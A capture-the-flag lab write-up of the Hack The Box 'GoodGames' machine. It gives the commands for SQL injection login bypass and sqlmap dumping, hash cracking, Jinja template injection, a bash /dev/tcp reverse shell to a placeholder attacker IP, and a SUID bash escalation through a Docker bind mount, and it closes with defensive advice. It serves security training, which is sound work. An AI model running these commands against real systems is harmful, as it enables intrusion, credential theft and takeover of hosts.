# HTB - GoodGames

**IP Address:** `10.129.29.40`  
**OS:** Linux (Debian GNU/Linux; verified on host after pivot)  
**Difficulty:** Easy  
**Tags:** #htb #goodgames #mysql #sqli #flask #ssti #docker #password-reuse

---
## Synopsis

GoodGames exposes a Python Werkzeug application on port 80 that is vulnerable to SQL injection on `/login`, which allows enumerating the backing MySQL schema and recovering application credentials. Reusing the cracked administrative password grants access to an internal Flask administration vhost where a settings field is vulnerable to server-side template injection, yielding a shell inside a Docker environment. From the container, the host is reachable on the Docker bridge; SSH to the host combined with a bind-mounted home directory allows turning a copied `bash` into a SUID helper to elevate to root on the host and read the root flag.

---
## Skills Required

- Web enumeration (httpx/whatweb/ffuf or equivalent)
- Basic SQL injection exploitation (auth bypass, `UNION`-based extraction or `sqlmap`)
- Hash identification and offline cracking (wordlists / CrackStation-style lookup)
- Flask / Jinja SSTI awareness for RCE
- Basic Docker networking enumeration and host pivoting via SSH

## Skills Learned

- Exploiting SQL injection in a login form backed by MySQL
- Dumping database contents with `sqlmap` from a raw Burp-style request file
- Recognizing password reuse across multiple application surfaces
- Using SSTI gadgets to execute OS commands and retrieve a reverse shell
- Abusing bind-mounted user home directories from a privileged container context to modify host file permissions (SUID)

---
## 1. Initial Enumeration

### 1.1 Connectivity Test

Check if the host is alive using ICMP:

```bash
ping -c 1 10.129.29.40
```



---
### 1.2 Port Scanning

Scan all TCP ports to identify open services:

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.129.29.40 -oG allPorts
```

- `-p-` : Scan all 65,535 ports  
- `--open` : Show only open ports  
- `-sS` : SYN scan (stealthy and fast)  
- `--min-rate 5000` : Increase scan speed  
- `-Pn` : Skip host discovery  
- `-oG` : Output in grepable format  



Extract the open ports:

```bash
extractPorts allPorts
```



---
### 1.3 Targeted Scan

Run a deeper scan on the identified ports with version detection and default scripts:

```bash
nmap -sCV -p80 10.129.29.40 -oN targeted
cat targeted
```

- `-sC` : Run default NSE scripts  
- `-sV` : Detect service versions  
- `-oN` : Output in human-readable format  



The application stack is Python/Werkzeug-oriented; confirm the HTTP title and server headers with a fingerprinting pass as a sanity check alongside the scripted scan:

```bash
whatweb http://10.129.29.40/
```



**Findings:**

| Port(s) | Service | Notes |
|---|---|---|
| 80/tcp | http | `Werkzeug` / Python stack; login and community-style routes |

Because later steps rely on vhosts/subdomains observed in-application, map names locally:

```bash
echo "10.129.29.40 goodgames.htb internal-administration.goodgames.htb" | sudo tee -a /etc/hosts
```

---
## 2. Service Enumeration

### 2.1 Primary web surface enumeration

Only port 80 is exposed externally, so the next step is to map common routes quickly and visually confirm login/signup workflows.

```bash
ffuf -u http://10.129.29.40/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt -ac -fc 404 -t 40
```



---
### 2.2 Authentication surface review (manual / proxy-assisted)

BurpSuite (or Firefox devtools/network) helps validate how credentials are transmitted and confirms the `/login` form posts `email` and `password` fields.

```bash
# No single mandatory CLI here; reproduce in browser/proxy against:
# POST /login
```

Manual SQL injection proof (conceptually `email=test@test.com' or 1=1 -- -&password=<anything>`):



Confirm the authenticated session semantics (cookie/session behavior) via the proxy response pane:



---
## 3. Foothold

### 3.1 SQL injection foothold → authenticated application context

The login flow can be influenced via SQL injection in the `email` parameter. A successful bypass should move the workflow into post-login UI states (route differences, admin profile cues, redirects).

Represent the behavior in your notes with a controlled manual request (proxy or `curl`) targeting `POST /login` and the `email` field, then validate the UI change in the browser:

```bash
# Example shape (URL-encode as needed):
# curl -s -i -X POST 'http://10.129.29.40/login' \
#   -H 'Content-Type: application/x-www-form-urlencoded' \
#   --data-urlencode 'email=<SQLi payload>' \
#   --data-urlencode 'password=<garbage>'
```

Browser confirmation after bypass:



---
### 3.2 Portal pivot: profile area and secondary vhost

After authenticating through the flawed login logic, `/profile` shows administrative context and exposes navigation toward an internal subdomain.

```bash
# After obtaining a valid application session, validate:
# - GET /profile shows admin context
# - settings affordance leads to internal-administration.goodgames.htb mapping
```



---
### 3.3 Automated extraction with `sqlmap` (recommended once a raw HTTP request baseline exists)

Save a **plain raw HTTP** POST request (`goodgames_raw.req`) for `/login`, then automate enumeration of the backing database schema.

Important practical note validated during the solve:

- Starting from a Burp-exported **XML request file** can make `sqlmap` miss the injection; a raw request file works reliably.

```bash
sqlmap -r goodgames_raw.req -p email --batch --dbms=mysql --level 3 --risk 2 --dbs
```



```bash
sqlmap -r goodgames_raw.req -p email --batch --dbms=mysql --level 3 --risk 2 -D main --tables
```



```bash
sqlmap -r goodgames_raw.req -p email --batch --dbms=mysql --level 3 --risk 2 \
  -D main -T user -C email,name,password --dump
```



Recovered materially (examples from the dumped rows): `main.user` contained an administrative email row with an MD5 password hash and a locally-created test user row.

---
### 3.4 Password cracking → internal Flask administration reuse

Offline cracking (or CrackStation-style lookup against common MD5 preimages) converts the recovered admin hash into usable credentials for another login surface exposed only on `internal-administration.goodgames.htb`.



After logging into the Flask administration UI:



The settings page exposes user-editable fields; `Full Name` is a strong candidate for SSTI testing in Flask/Jinja templating contexts:



Confirm template evaluation with arithmetic first (conceptually `{{7*7}}` → renders as `49` when unsafe rendering is happening), then move to constrained command execution primitives.

Reverse shell staging (conceptual steps):

```bash
# Attacker-side encoding:
echo -ne 'bash -i >& /dev/tcp/<ATTACKER_IP>/<ATTACKER_PORT> 0>&1' | base64
```

```bash
# Attacker listener:
nc -lvnp <ATTACKER_PORT>
```



---
## 4. Privilege Escalation

### 4.1 Container context, mounted home, and pivot to the Docker host

Inside the spawned shell environment, filesystem layout and routing indicate Docker-style networking (`172.19.0.2`) and expose a bind-mounted `/home/<user>` from the underlying host filesystem.

Enumerate host reachability on the Docker bridge gateway and confirm exposed services (commonly SSH):

```bash
ip a
mount | grep home
```

```bash
for PORT in $(seq 1 65535); do
  timeout 1 bash -c "</dev/tcp/172.19.0.1/$PORT" &>/dev/null && echo "port $PORT is open"
done
```



The user flag is readable from within the mounted home inside the container (evidence artifact during the pivot phase):



🏁 **User flag obtained**

Reuse the cracked password suite against SSH for the mapped host user observed on `uid 1000` home paths:

```bash
ssh augustus@172.19.0.1
```



---
### 4.2 Writable host home + privileged container chmod → root on host

Because the attacker can write and `chown/chmod` from the container onto the mounted home directory contents, escalate on the host by copying `bash`, returning to container root privileges to mark it SUID, then invoking it preserved-setuid (`-p`).

Host-side preparation (as `augustus`):

```bash
cd ~
cp /bin/bash .
exit
```

Container-side permission flip (as root in the container against the mount):

```bash
cd /home/augustus
chown root:root bash
chmod 4755 bash
```



Return SSH session as `augustus` on the host and validate the SUID bit, then obtain root privileges:

```bash
cd ~
ls -l bash
./bash -p
id
```



🏁 **Root flag obtained**

---
# ✅ MACHINE COMPLETE

---
## Summary of Exploitation Path

1. Enumerate externally exposed TCP/HTTP and fingerprint Werkzeug/Python on port 80.
2. Exploit `/login` SQL injection to reach authenticated application behavior; enumerate `main` schema and dump `main.user` (manual `UNION` path and/or `sqlmap` on a raw request file).
3. Crack the administrative password hash offline and authenticate to `internal-administration.goodgames.htb`.
4. Abuse SSTI in the settings UI to execute code and retrieve a reverse shell as root inside a container.
5. Discover Docker bridge pivot to SSH on the gateway host route, authenticate as `augustus`, and escalate via SUID `bash` after container-side `chmod`/`chown` reflected through a bind-mounted home directory.

---
## Defensive Recommendations

- Eliminate concatenated SQL queries; migrate to parameterized statements / prepared statements for authentication checks.
- Enforce centralized password hashing (strong adaptive algorithms where appropriate) and block password reuse across separate admin portals.
- Never render unsanitized user input through template engines (`render_template_string`-style pitfalls); treat profiles as opaque strings unless explicitly escaped/sandboxed.
- Avoid bind-mounting host home directories with incompatible permission models; constrain container UID/GID mapping and forbid containers from mutating host-owned permission bits on writable mounts.
